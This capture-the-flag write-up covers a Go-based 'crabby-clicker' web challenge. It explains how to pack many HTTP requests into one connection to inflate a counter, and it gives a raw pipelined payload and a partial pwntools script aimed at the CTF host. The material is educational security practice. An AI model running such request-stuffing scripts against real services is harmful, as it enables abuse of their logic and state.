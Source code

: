 ```go
} else if uri == "/click" {
    // BUG: Weird thing where the state is not updated between requests??
    r.burgers++
    r.generateResponse("burger added")
```

The issue is also mentioned in the comment...so how can we reach at least 100 burgers?

I thought of having an attack related to CRLF (Carriage Return Line Feeds) to do multiple requests...and it is indeed possible!

Our request is being read at:
```go
    // Read and parse the request headers
    request, err := readHTTPHeader(reader)
    if err != nil {
        return
    }
...
...
...
func readHTTPHeader(reader *bufio.Reader) (string, error) {
	// Read headers until \r\n\r\n
	var requestLines []string
	for {
		line, err := reader.ReadString('\n')
		if err != nil {
			return "", err
		}
		requestLines = append(requestLines, line)
		// Check if the current line marks the end of the headers
		if line == "\r\n" {
			break
		}
	}
	return strings.Join(requestLines, ""), nil
}
```

So if our payload is
```
GET /click HTTP/1.1\r\nHost: crabby-clicker.ctf.umasscybersec.org\r\n\r\nGET /click HTTP/1.1\r\nHost: crabby-clicker.ctf.umasscybersec.org\r\n\r\n
```

It will be interpreted as two concurrent requests to `/click`!

Time to have the attack script :D

```python
from pwn import *
import warnings

warnings.filterwarnings("ignore", category=BytesWarning)

host = 'crabby-clicker.ctf.umasscybersec.org'
port = 80
conn = remote(host, port)

payloadData = []

for x in range(0, 100):
    payloadData.append(f"GET /click HTTP/1.1\r\nHost: {host}\r\n\r\n")

payloadData.append(f"GET /flag HTTP/1.1\r\nHost: {host}\r\n\r\n")

payload = ''.join(payloadData)
```